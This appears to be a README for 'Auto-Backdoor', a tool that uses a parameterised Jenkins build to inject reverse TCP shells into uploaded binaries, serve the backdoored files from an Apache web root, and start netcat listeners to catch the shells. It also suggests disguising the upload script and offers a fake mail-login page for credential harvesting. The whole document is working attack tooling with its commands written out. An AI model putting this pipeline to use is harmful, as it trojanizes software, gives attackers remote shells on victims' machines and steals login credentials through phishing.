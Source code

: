 # Auto-Backdoor
Need a jenkins server running, on it make a build, this build needs to be paramatized with the following text pramaters

`dir` 
`Payload_Type`
`port`
`IP`
`binName`

Usage: `python abd.py $BINARY $PLACE TO UPLOAD / DOWNLOAD $PUT SCRIPT LOCATION $JENKINS URL $Jenkins token $Jenkins project location $0 for linux $not used yet, always 0 $Backdoor callback port $backdoor callback ip / domain name`

Jenkins configuration:
	Standord jenkins build, easiest to change jenkins user to be same as www root if on save server (on ubuntu it is www-data, edit	###NEED TO FIND CONFIG LOCATION###)
	Need to edit the following in jenkins:
		1: Make it a pramatrised build with the following
			1: dir
			2: Payload_Type
			3: port		(Note: For shell call back)
			4: IP		(Note: For shell call back)	
			5: binName
		2: Check allow simotaius builds
		3: Set allow remote triggred with a token
		4: Build shell with following:
			```rp=$(expr 1024 + $BUILD_NUMBER) #make it a port that is non-reserved and non-taken, should exclude 8080 and a few others
echo $rp
cp /in/$dir .
backdoor -f $dir -P $rp -H $IP -s reverse_shell_tcp
cp backdoored/$dir /var/www/html/out/$dir
echo "\nPutting $rp session //need ip address from victom here" >> /var/www/html/list_screens_go_to_what
## NEED SCREEN AND netcat-openbsd packages (sudo apt-get install netcat-openbsd) as default nc does not have the -k flag
screen -S L_$rp -d -m \'nc -lnvkp $rp\'
#screen -ls #debugging```

PHP Configuration:
	I use apache2 with PHP5
	`sudo apt-get install apache2 libapache2-mod-php5 php5-cgi`
	move the put.php into /var/www/html/ and change the name to something that would not be susspisus
	if you want there is a basic template for making it look like a mail login, with cred harvesting, move everything in mail/ to /var/www/html
		edit `/etc/apache2/sites-enabled/000-default.conf` and add `DirectoryIndex index.php` to index.php
	
To get shell back:
	nc -lnvp $Backdoor Port #wait for shell

For help email ABD@rahartshorn.com

--
Robert Hartshorn
